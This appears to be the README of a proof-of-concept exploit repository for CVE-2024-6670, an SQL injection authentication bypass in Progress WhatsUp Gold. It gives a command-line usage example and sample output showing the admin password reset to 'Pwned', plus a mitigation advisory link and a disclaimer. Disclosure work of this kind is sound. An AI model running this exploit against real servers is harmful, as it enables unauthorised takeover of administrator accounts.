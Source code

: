 # CVE-2024-6670
PoC for Progress Software WhatsUp Gold HasErrors SQL Injection Authentication Bypass Vulnerability (CVE-2024-6670)


A root cause analysis of the vulnerability can be found on my blog:

https://summoning.team/blog/progress-whatsup-gold-sqli-cve-2024-6670/

[![ZDI](poc.png)](https://summoning.team/blog/progress-whatsup-gold-sqli-cve-2024-6670/)



## Usage
```
python CVE-2024-6670.py --newpassword Pwned --target-url https://192.168.201.150

 _______ _     _ _______ _______  _____  __   _ _____ __   _  ______   _______ _______ _______ _______
 |______ |     | |  |  | |  |  | |     | | \  |   |   | \  | |  ____      |    |______ |_____| |  |  |
 ______| |_____| |  |  | |  |  | |_____| |  \_| __|__ |  \_| |_____| .    |    |______ |     | |  |  |

        (*) Progress Software WhatsUp Gold HasErrors SQL Injection Authentication Bypass Vulnerability (CVE-2024-6670)

        (*) Exploit by Sina Kheirkhah (@SinSinology) of SummoningTeam (@SummoningTeam), shoutout to @indishell1046

        (*) Technical details: https://summoning.team/blog/progress-whatsup-gold-sqli-cve-2024-6670/


[^_^] Starting the exploit...
[*] Used remote primitive to encrypt our passowrd
[*] encrypted password extracted -> 0x03000000100000000EABC7F4B1C8263DADB17E4BED835C0F
[+] Exploit finished, you can now login using the username -> admin and password -> Pwned





```

## Mitigations
Update to the latest version or mitigate by following the instructions within the Progress Advisory
* https://community.progress.com/s/article/WhatsUp-Gold-Security-Bulletin-August-2024

## Manish Kishan Tanwar
If it wasn’t because of the motivation and lessons that my dear friend [Manish](https://x.com/indishell1046) has taught me over the years I have known him, I wouldn’t be able to exploit this bug, thank you my friend.

## Follow Us on Twitter(X) for the latest security research:
*  [SinSinology](https://x.com/SinSinology)
*  [SummoningTeam](https://x.com/SummoningTeam)

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.


